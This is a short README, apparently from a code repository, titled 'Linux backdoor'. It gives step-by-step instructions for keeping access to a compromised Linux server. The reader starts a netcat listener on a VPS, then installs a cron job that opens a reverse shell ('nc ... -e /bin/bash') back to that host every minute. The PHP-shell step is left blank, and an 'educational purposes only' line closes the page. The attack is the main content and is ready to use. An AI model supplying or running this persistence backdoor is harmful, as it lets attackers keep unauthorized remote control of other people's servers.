

Linux  backdoor
* You need vps(aws).
### Linux/Ubuntu
* On the VPS run netcat listener   nc -lnvp 4444   (you can type whatever port you want).
* When you have reverse shell or php shell with remote code execution allowed on the target server use this script to create a cronjob which
 connect your target to your VPS in every 1 minute.
* This is for reverse shell:
* echo "*/1 * * * *  nc your_vps_public_IP the_port_for_netcat  -e /bin/bash   > /dev/null 2>&1 &" > cron && cat cron | crontab -
* This is for php shell:

### Only for educational purposes!
### Use it on your own server!
